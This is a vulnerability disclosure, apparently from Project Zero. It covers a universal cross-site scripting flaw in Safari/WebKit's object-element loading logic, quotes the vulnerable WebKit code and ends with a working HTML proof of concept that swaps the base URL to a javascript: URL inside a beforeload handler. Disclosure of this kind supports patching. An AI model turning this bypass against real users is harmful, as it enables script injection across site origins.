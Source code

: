 # UXSS through HTMLObjectElement::updateWidget
## Reported by lokihardt@google.com, Feb 9 2017

When an object element loads a JavaScript URL(e.g., `javascript:alert(1)`), it checks whether it violate the Same Origin Policy or not.

Here's some snippets of the logic.
```cpp
void HTMLObjectElement::updateWidget(CreatePlugins createPlugins)
{
    ...
    String url = this->url();
    ...
    if (!allowedToLoadFrameURL(url))
        return;
    ...

    bool beforeLoadAllowedLoad = guardedDispatchBeforeLoadEvent(url);
    ...

    bool success = beforeLoadAllowedLoad && hasValidClassId();
    if (success)
        success = requestObject(url, serviceType, paramNames, paramValues);
    ...
}

bool HTMLPlugInImageElement::allowedToLoadFrameURL(const String& url)
{
    URL completeURL = document().completeURL(url);
    if (contentFrame() && protocolIsJavaScript(completeURL) && !document().securityOrigin().canAccess(contentDocument()->securityOrigin()))
        return false;
    return document().frame()->isURLAllowed(completeURL);
}

bool HTMLPlugInElement::requestObject(const String& url, const String& mimeType, const Vector<String>& paramNames, const Vector<String>& paramValues)
{
    if (m_pluginReplacement)
        return true;

    URL completedURL;
    if (!url.isEmpty())
        completedURL = document().completeURL(url);

    ReplacementPlugin* replacement = pluginReplacementForType(completedURL, mimeType);
    if (!replacement || !replacement->isEnabledBySettings(document().settings()))
        return false;

    LOG(Plugins, "%p - Found plug-in replacement for %s.", this, completedURL.string().utf8().data());

    m_pluginReplacement = replacement->create(*this, paramNames, paramValues);
    setDisplayState(PreparingPluginReplacement);
    return true;
}
```

The SOP violation check is made in the method `HTMLPlugInImageElement::allowedToLoadFrameURL`.

What I noticed is that there are two uses of `document().completeURL` for the same URL, and the method guardedDispatchBeforeLoadEvent dispatches a beforeloadevent that may execute JavaScript code after the SOP violation check. So if the base URL is changed like "javascript:///%0aalert(location);//" in the event handler, a navigation to the JavaScript URL will be made successfully.

Tested on Safari 10.0.3(12602.4.8).

PoC:
```html
<html>

<head>
</head>

<body>
  <script>
    let o = document.body.appendChild(document.createElement('object'));
    o.onload = () => {
      o.onload = null;

      o.onbeforeload = () => {
        o.onbeforeload = null;

        let b = document.head.appendChild(document.createElement('base'));
        b.href = 'javascript:///%0aalert(location);//';
      };
      o.data = 'xxxxx';
    };

    o.type = 'text/html';
    o.data = 'https://abc.xyz/';
  </script>
</body>

</html>
```

https://bugs.chromium.org/p/project-zero/issues/detail?id=1120
